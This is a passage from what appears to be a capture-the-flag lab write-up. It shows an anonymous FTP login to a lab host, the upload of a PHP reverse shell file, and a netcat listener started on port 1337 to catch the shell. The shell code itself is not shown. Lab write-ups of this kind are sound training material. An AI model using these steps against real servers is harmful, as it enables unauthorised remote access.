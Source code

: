 **SECOUND STEP :** *LET UPLOAD REVERSE SHELL IN FTP SERVER*

```bash
➜ ftp 10.10.183.126
Connected to 10.10.183.126.
220 (vsFTPd 3.0.3)
Name (10.10.183.126:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd ftp
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||16480|)
150 Here comes the directory listing.
226 Directory send OK.
ftp> put Shell.php
local: Shell.php remote: Shell.php
229 Entering Extended Passive Mode (|||37852|)
150 Ok to send data.
100% |************************************************************************************|  5494       29.76 MiB/s    00:00 ETA
226 Transfer complete.
5494 bytes sent in 00:00 (28.49 KiB/s)
```

**FINAL STEP :** *USE A TOOL Netcat FOR Listening*

```bash
➜ nc -lnvp 1337
listening on [any] 1337 ...
```

![Connect Picture](./Startup-Images/shell.png)
